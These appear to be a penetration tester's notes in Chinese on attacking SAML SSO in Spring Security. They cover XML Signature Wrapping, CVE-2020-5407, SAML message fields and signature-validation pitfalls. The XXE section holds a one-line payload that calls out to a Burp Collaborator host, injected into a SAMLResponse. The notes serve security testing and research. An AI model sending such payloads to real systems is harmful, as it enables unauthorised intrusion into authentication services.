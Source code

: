 - https://infosecwriteups.com/lets-have-a-saml-talks-402559b34d4e
- https://research.nccgroup.com/2021/03/29/saml-xml-injection/
- https://research.aurainfosec.io/bypassing-saml20-SSO/
- https://jordanpotti.com/2019/08/26/phishing-with-saml-and-sso-providers/
- https://www.economyofmechanism.com/github-saml
- http://blog.intothesymmetry.com/2017/10/slack-saml-authentication-bypass.html
- https://www.nds.ruhr-uni-bochum.de/media/nds/veroeffentlichungen/2012/08/22/BreakingSAML_3.pdf
- https://www.reddit.com/r/netsec/comments/129n13/on_breaking_saml_be_whoever_you_want_to_be_pdf/
- https://www.hackedu.com/blog/analysis-of-common-federated-identity-protocols-openid-connect-vs-oauth-2.0-vs-saml-2.0
- [SAML Raider操作方法](https://blog.compass-security.com/2015/07/saml-burp-extension/)
- [How to Hunt Bugs in SAML; a Methodology - Part I](https://epi052.gitlab.io/notes-to-self/blog/2019-03-07-how-to-test-saml-a-methodology/)


### SAML相关知识背景
metadata，是一个XML文档，包含了SAML-enabled的DP和SP的必要信息。包含，比如说：URLs of endpoints, information about supported bindings, identifiers and public keys.

通常是给你自己的SP生成的，然后提供给所有其他的你想要进行SSO的DP。
可以通过这个Spring Security配置来启用：
```
<security:custom-filter before="FIRST" ref="metadataGeneratorFilter"/>
```
当Spring Security处理第一个URL请求时，这个filter就会被调用。


- [Metadata configuration](https://docs.spring.io/spring-security-saml/docs/current/reference/html/configuration-metadata.html)



### 名词概念
XML Signature Wrapping (XSW)

### SAML XXE
在原始samlresponse的基础上插入
使用XXE的payload：
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "wllmh29c901j8fuxg3y1bcoi2980wp.burpcollaborator.net"> %xxe; ]>
```
在这里，原封不动的到达：
org/springframework/security/saml2/provider/service/authentication/OpenSamlAuthenticationProvider#authenticate(Authentication authentication)
![image](https://user-images.githubusercontent.com/30398606/145777492-367f6330-c3b4-461e-90ef-c92a9cfcf63a.png)

```
authenticate:443, OpenSamlAuthenticationProvider (org.springframework.security.saml2.provider.service.authentication)
authenticate:68, Saml2AuthenticationManager (cn.com.xxxxxx.core.framework)
attemptAuthentication:103, Saml2WebSsoAuthenticationFilter (org.springframework.security.saml2.provider.service.servlet.filter)
doFilter:222, AbstractAuthenticationProcessingFilter (org.springframework.security.web.authentication)
doFilter:212, AbstractAuthenticationProcessingFilter (org.springframework.security.web.authentication)
doFilter:336, FilterChainProxy$VirtualFilterChain (org.springframework.security.web)
doFilterInternal:71, Saml2MetadataFilter (org.springframework.security.saml2.provider.service.web)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
doFilter:336, FilterChainProxy$VirtualFilterChain (org.springframework.security.web)
doFilterInternal:157, Saml2WebSsoAuthenticationRequestFilter (org.springframework.security.saml2.provider.service.servlet.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
doFilter:336, FilterChainProxy$VirtualFilterChain (org.springframework.security.web)
doFilter:103, LogoutFilter (org.springframework.security.web.authentication.logout)
doFilter:89, LogoutFilter (org.springframework.security.web.authentication.logout)
doFilter:336, FilterChainProxy$VirtualFilterChain (org.springframework.security.web)
doFilterInternal:117, CsrfFilter (org.springframework.security.web.csrf)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
doFilter:336, FilterChainProxy$VirtualFilterChain (org.springframework.security.web)
doHeadersAfter:90, HeaderWriterFilter (org.springframework.security.web.header)
doFilterInternal:75, HeaderWriterFilter (org.springframework.security.web.header)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
doFilter:336, FilterChainProxy$VirtualFilterChain (org.springframework.security.web)
doFilter:110, SecurityContextPersistenceFilter (org.springframework.security.web.context)
doFilter:80, SecurityContextPersistenceFilter (org.springframework.security.web.context)
doFilter:336, FilterChainProxy$VirtualFilterChain (org.springframework.security.web)
doFilterInternal:55, WebAsyncManagerIntegrationFilter (org.springframework.security.web.context.request.async)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
doFilter:336, FilterChainProxy$VirtualFilterChain (org.springframework.security.web)
doFilterInternal:211, FilterChainProxy (org.springframework.security.web)
doFilter:183, FilterChainProxy (org.springframework.security.web)
invokeDelegate:358, DelegatingFilterProxy (org.springframework.web.filter)
doFilter:271, DelegatingFilterProxy (org.springframework.web.filter)
internalDoFilter:190, ApplicationFilterChain (org.apache.catalina.core)
doFilter:163, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:100, RequestContextFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:190, ApplicationFilterChain (org.apache.catalina.core)
doFilter:163, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:93, FormContentFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:190, ApplicationFilterChain (org.apache.catalina.core)
doFilter:163, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:142, SessionRepositoryFilter (org.springframework.session.web.http)
doFilter:82, OncePerRequestFilter (org.springframework.session.web.http)
internalDoFilter:190, ApplicationFilterChain (org.apache.catalina.core)
doFilter:163, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:96, WebMvcMetricsFilter (org.springframework.boot.actuate.metrics.web.servlet)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:190, ApplicationFilterChain (org.apache.catalina.core)
doFilter:163, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:201, CharacterEncodingFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:190, ApplicationFilterChain (org.apache.catalina.core)
doFilter:163, ApplicationFilterChain (org.apache.catalina.core)
invoke:202, StandardWrapperValve (org.apache.catalina.core)
invoke:97, StandardContextValve (org.apache.catalina.core)
invoke:542, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:143, StandardHostValve (org.apache.catalina.core)
invoke:92, ErrorReportValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
service:357, CoyoteAdapter (org.apache.catalina.connector)
service:382, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:893, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1723, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1149, ThreadPoolExecutor (java.util.concurrent)
run:624, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:748, Thread (java.lang)
```

但是：


搜snyk搜到一个CVE-2020-5407，
> Spring Security versions 5.2.x prior to 5.2.4 and 5.3.x prior to 5.3.2 contain a signature wrapping vulnerability during SAML response validation. When using the `spring-security-saml2-service-provider` component, a malicious user can carefully modify an otherwise valid SAML response and append an arbitrary assertion that Spring Security will accept as valid.


https://security.snyk.io/search?type=any&q=spring-security-saml2
但是这个影响范围是：
```
[5.3.0.RELEASE,5.3.2.RELEASE) [5.2.0.RELEASE,5.2.4.RELEASE)
```
查看项目的直接和间接依赖：
```
mvn dependency:tree -Dincludes=org.springframework.security:spring-security-saml2-service-provider
```


### SAML消息解释
Ref：
- [进宫 SAML 2.0 安全](https://paper.seebug.org/2006/)
- https://research.aurainfosec.io/bypassing-saml20-SSO/


```

    AssertionConsumerServiceURL: 指定IDP认证成功之后，要将AuthnResponse发送到SP的哪个URL处理
    Destination: 指定IDP认证的端点
    ForceAuthn: 强制认证，就算之前认证过，浏览器携带了认证的session，如果这个值为true，还是会重新认证
    ID: 随机标识，主要是用来方便在其他标签引用，例如在SignedInfo中的Reference
    IsPassive: 默认为 false 。如果为 true，则IdP不能显示的通过浏览器与用户进行交互，用户不能感知到跳转的存在
    IssueInstant: 请求的签发时间
    ProtocolBinding: 使用什么来传输SAML消息，这里是通过HTTP POST来传输
    Version: 2.0版本

```


对于签名问题，在Bypassing SAML 2.0 SSO with XML Signature Attacks这篇文章中提到的几个问题感觉很好的说明了SAML可能存在的安全隐患:
```
    签名是否是必须的？可能一些SAML的实现从请求中判断是否携带了Signature，携带了就校验，没携带就不校验；或者设置一个签名校验开关让开发者进行处理，而开发者可能并不熟悉没有打开强制验证等情况
    签名是否经过验证？虽然生成AuthnRequest和Response都进行了签名，但是各自收到SAML消息时没有进行签名验证的情况
    签名是否来自正确的签名者？X509Certificate包含签名者信息，如果没有校验是否是信任的证书，那么可以伪造证书，然后对SAML消息进行篡改，重新签名
    是否对响应中正确的部分进行签名？SAML标准允许的签名存在的位置仅有两处:Response、Assertion，没有人仅仅为了使用SAML，就完整地实现复杂的XML签名机制。这一标准是通用的，标准的实现及其软件库也是如此。所以如果某些库如果验证签名没有验证到正确的位置，就可以将签名引用到文档的不同位置，并且让接受者认为签名是有效的，造成XSW攻击
```


参考：
- https://tanzu.vmware.com/security/cve-2020-5407
- https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORKSECURITY-569093
- https://blog.spoock.com/2018/10/23/java-xxe/
- https://github.com/spring-projects/spring-security/commit/69b1bc62ffe7c1e1bbf508951efa1e0235954198
- https://github.com/RUB-NDS/SAML-XXE-Test/blob/master/default_phase1_vectors.yml
